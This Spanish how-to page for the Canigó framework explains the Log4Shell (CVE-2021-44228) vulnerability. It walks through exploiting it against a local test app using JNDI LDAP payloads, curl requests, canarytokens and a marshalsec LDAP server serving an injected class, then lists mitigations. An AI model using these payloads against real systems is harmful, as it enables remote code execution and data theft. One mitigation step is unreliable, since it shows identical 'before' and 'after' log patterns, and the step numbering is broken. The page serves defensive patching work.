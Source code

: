 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilidad: CVE-2021-44228 (log4jshell)"
description = "Como correguir la vulnerabilidad CVE-2021-44228 (log4jshell)"
section     = "howtos"
categories  = ["canigo"]
key         = "GENER2022"
+++

# Vulnerabilidad: CVE-2021-44228 (log4jshell)

Esta vulnerabilidad permite ejecutar código en un servidor remoto, inyectando una petición JNDI `${jndi:(ldap|rmi|etc)}` dentro cualquier variable que sea enviada al log del servidor. Para explotar la vulnerabilidad, se siguen estos pasos:

1. En el servidor que aloja la aplicación vulnerable, se registra la información que contiene la carga útil maliciosa, por ejemplo: `${jndi:ldap://[servidor]/[carga útil]}`, donde el servidor está controlado por el atacante y la carga útil contiene el comando a ejecutar.
2. La vulnerabilidad se activa y el servidor vulnerable, solicita al servidor del atacante a través de JNDI el código malicioso.
3. La respuesta del servidor del atacante contiene la ruta a una clase Java maliciosa, por ejemplo: `http://[servidor]/exploit.class`, que se inyecta en el contexto de la aplicación vulnerable.
4. La carga útil inyectada permite al atacante ejecutar código arbitrario.

> fuentes:
> * <https://github.com/YfryTchsGD/Log4jAttackSurface>
> * <https://github.com/christophetd/log4shell-vulnerable-app>
> * <https://www.tarlogic.com/blog/log4shell-vulnerability-cve-2021-44228/>
> * <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/>
> * <https://www.randori.com/blog/cve-2021-44228/>

## Como explotar la vulnerabilidad en Canigó

1. Crear una aplicación con el archetype de Canigó por ejemplo: `CanigoLog4jShellTest`

   ```sh
   # Canigó 3.6
   mvn archetype:generate \ 
    -DarchetypeGroupId=cat.gencat.ctti \
    -DarchetypeArtifactId=plugin-canigo-archetype-rest \
    -DarchetypeVersion=1.7.0 \
    -DartifactId=CanigoLog4jShellTest \
    -DgroupId=cat.gencat.ctti \
    -Dversion=1.0.0 -B
   ```

2. Modificar el servicio de pruebas: `EquipamentServiceController` para imprimir en el log, los parámetros de entrada del servicio de creación de equipaments

    ```java
   import org.apache.logging.log4j.LogManager;
   import org.apache.logging.log4j.Logger;
   
    private static Logger log = LogManager.getLogger(EquipamentServiceController.class.getName());

    public void saveEquipament(@RequestBody Equipament equipament) {
      log.error("equipament.getNom() {}", equipament.getNom());
      ...
    }
    ```

3. Iniciar el proyecto creado con el servidor tomcat embebido, por ejemplo:

    ```sh
    mvn clean spring-boot:run

    # or

    mvn clean package && java -jar ./target/CanigoLog4jShellTest.war

    # or

    mvn clean package docker:build \
      && docker run -it --rm \
      --net=host \
      --name="log4jshell-local" \
      --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
      canigo/app
    ```

### Utilizando el proyecto `canarytokens`

> El proyecto de código abierto: `canarytokens` permite generar tokens para explotar vulnerabilidades.
> Sí al utilizar un token se explota una vulnerabilidad, se envía un correo electrónico con los detalles del acceso
>  * <https://docs.canarytokens.org/guide/>
>  * <https://github.com/thinkst/canarytokens>

4. Generar un token tipo `log4jshell` desde: <https://canarytokens.org/generate#>, por ejemplo:

    ```txt
    ${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}
    ```

5. Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

    ```sh
    curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
      --header 'Content-Type: application/json' \
      --data-raw '{ "nom": "${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}","municipi": "Barcelona"}'
    ```

6. Verificar en el buzón del correo configurado en `canarytokens` y comprobar el correo con la traza de la conexión remota al servidor de la aplicación

   [Email exploit test](/images/howtos/log4jshell/email_exploit_alert.png)

   [Canary tokens exploit details 1](/images/howtos/log4jshell/canary_token_exploit_details1.png)

   [Canary tokens exploit details 2](/images/howtos/log4jshell/canary_token_exploit_details2.png)

### Utilizando un servidor LDAP

> Se requiere: SO Linux, Python3, git, maven, acceso a internet

4. Iniciar un servidor web que contenga el código malicioso a inyectar

   > Se puede utilizar el proyecto `https://github.com/cybereason/Logout4Shell.git` y modificar la clase `Log4jRCE.java` para agregar cualquier código malicioso que se quiera inyectar en un servidor

    ```sh
    git clone https://github.com/cybereason/Logout4Shell.git
    mvn clean package
    cd target/classes
    python3 -m http.server 8888
    ```

5. Iniciar un servidor LDAP

   > Se puede utilizar el proyecto `https://github.com/mbechler/marshalsec.git`
   
   #### Por ejemplo se puede agregar este código para inyectar en el servidor vulnerable una traza
   
    ```java
      String dateNow = ZonedDateTime.now(ZoneId.of("Europe/Madrid")).format(DateTimeFormatter.ofPattern("yyyy-MM-dd'T'HH:mm:ss.SSSZ"));
      System.out.println("Log4JShell - JPJE ----------------------------: " + dateNow);
    ```   

    ```sh
    git clone https://github.com/mbechler/marshalsec.git
    mvn clean package -DskipTests
    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
    ```

6. Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

    ```sh
    curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
      --header 'Content-Type: application/json' \
      --data-raw '{ "nom": "${jndi:ldap://127.0.0.1:1389/a}","municipi": "Barcelona"}'
    ```

7. Revisar en el log de la aplicación `CanigoLog4jShellTest` los efectos de explotar la vulnerabilidad

   > Con la vulnerabilidad

   [LDAP exploit](/images/howtos/log4jshell/log4jshell_trace1.gif)

   > Sin la vulnerabilidad

   [LDAP no exploit](/images/howtos/log4jshell/log4jshell_trace2.gif)

   > Se puede apreciar en el log de `CanigoLog4jShellTest` la traza generada por el código inyectado. Se podria obtener por ejemplo, todas las variables de entorno, o los archivos de configuración y enviarlos por correo

## Como solventar/mitigar la vulnerabilidad

---

1. Sustituir la version de la dependencia de la librería `log4j` (tiempo de compilación). Por ejemplo:

   1.1 modificando el: `pom.xml` (Opción recomendada) (requiere recompilar y desplegar)

    ```xml
    <properties>
      <log4j2.version>2.15.0</log4j2.version>
    </properties>
    ```

   1.2 inyectando la variable durante la construcción de la aplicación (requiere recompilar y redesplegar)

    ```sh
    mvn -Dlog4j2.version=2.15.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
    ```

4. Configurar la variable: `log4j2.formatMsgNoLookups (tiempo de ejecución)

   2.1 inyectando la variable (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

    ```sh
    mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
    ```

   2.2 agregando una variable de entorno (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

   > fuente: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/

    ```sh
    mvn clean package docker:build \
      && docker run -it --rm \
      --net=host \
      --name="log4jshell-local" \
      --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
      --env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
      canigo/app
    ```

5. Modificar el patron de trazas configuradas en el archivo: `log4j.xml` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

   > fuente: https://kb.vmware.com/s/article/87093

    ```sh
    ## cambiar:
    <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />

    ## por:
    <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />
    ```

6. Eliminar la clase `maliciosa` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

    ```sh
    zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
    ```
